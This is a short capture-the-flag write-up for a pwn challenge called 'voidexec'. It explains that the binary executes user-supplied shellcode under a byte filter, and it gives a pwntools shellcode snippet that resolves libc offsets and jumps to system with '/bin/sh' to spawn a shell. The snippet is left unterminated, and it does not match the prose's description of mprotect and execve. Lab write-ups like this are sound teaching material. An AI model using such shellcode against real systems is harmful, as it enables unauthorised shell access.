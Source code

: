 # Challenge Statement

Attachement: [voidexec.zip](https://github.com/harishkannan05/THM-HackfinityBattle-Writeup/blob/main/Attachments/voidexec.zip)

# Solution
Going through the files, we understand that the binary reads shellcode from the user and executes it.  
The shellcode should not contain `0x15` or `0xCD 0x80`.  
We also find that the `r13` register stores the address of the "main" function.  

Now, we can write the shellcode to call `mprotect` function to change the memory region to read-execute and call the `execve` syscall.  
```
sc = asm(f"""
sub rcx, {libc.sym.mprotect + 0x0b}
mov r12, rcx
add rcx, {libc.sym.system}
mov rdi, r12
add rdi, {next(libc.search(b'/bin/sh'))}
jmp rcx
```
